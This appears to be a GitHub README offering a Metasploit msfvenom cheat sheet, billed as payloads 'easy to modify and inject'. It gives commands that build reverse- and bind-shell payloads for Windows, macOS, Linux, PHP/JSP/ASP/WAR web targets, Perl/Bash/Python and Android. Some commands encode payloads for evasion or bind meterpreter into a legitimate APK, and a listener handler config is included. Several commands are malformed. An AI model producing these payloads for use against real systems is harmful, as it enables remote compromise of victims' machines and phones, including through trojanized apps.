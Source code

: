 # Payloads
Android and different os payloads easy to modify and inject

<h2>Cheetsheet Metasploit</h2>

Windows Payloads
Windows Meterpreter Reverse Shell

<pre> msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </pre>

Windows Reverse Shell
<pre> msfvenom -p windows/shell/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </pre>

Windows Encoded Meterpreter Reverse Shell
<pre> msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 2 -f exe > payload-name.exe </pre>

Windows Meterpreter Reverse Shellcode
<pre> msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

macOS Payloads
macOS Bind Shell
<pre> msfvenom -p osx/x86/shell_bind_tcp rhost=ip-address lport=port-f macho > payload-name.macho </pre>

macOS Reverse Shell
<pre> msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f macho > payload-name.macho </pre>

macOS Reverse TCP Shellcode
<pre> msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

Linux Payloads
Linux Meterpreter TCP Reverse Shell
<pre> msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Bind TCP Shell
<pre> msfvenom -p generic/shell_bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Bind Meterpreter TCP Shell
<pre> msfvenom -p linux/x86/meterpreter/bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Meterpreter Reverse Shellcode
<pre> msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

Web-base Payloads
PHP Meterpreter Reverse Shell
<pre> msfvenom -p php/meterpreter_reverse_tcp lhost=ip-address LPORT=port -f raw > payload-name.php </pre>

JSP Java Meterpreter Reverse Shell
<pre> msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f raw > payload-name.jsp </pre>

ASP Meterpreter Reverse Shell
<pre> msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f asp > payload-nmae.asp </pre>

WAR Reverse TCP Shell
<pre> msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f war > payload-name.war </pre>

Script-Base Payloads
Perl Unix Reverse shell
<pre> msfvenom -p cmd/unix/reverse_perl lhost=ip-address lport=port -f raw > payload-name.pl </pre>

Bash Unix Reverse Shell
<pre> msfvenom -p cmd/unix/reverse_bash lhost=ip-address lport=port -f raw > payload-name.sh </pre>

Python Reverse Shell
<pre> msfvenom -p cmd/unix/reverse_python lhost=ip-address lport=port -f raw > payload-name.py </pre>

Android Payloads
Android Meterpreter reverse Payload
<pre> msfvenom -p android/meterpreter/reverse_tcp lhost=ip-address lport=port R > payload-name.apk </pre>

Android Bind Meterpreter Payload
<pre> msfvenom -x app.apk -p android/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -o out.apk </pre>
<pre>msfvenom --platform android --arch dalvik -x myApp.apk -p android/meterpreter/reverse_tcp LHOST=192.168** LPORT=7777 -o build.apk</pre>

#Save AS explort.rc
Run command 


<pre>
# msfconsole -q -r 'export.rc'
# nano export.r
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 5576
set ExitOnSession false
set EnableStageEncoding true
run -j
</pre>

..........................................<a href="https://uk2blogger.blogspot.com/2021/03/best-way-to-generate-metasploit.html">read more</a>



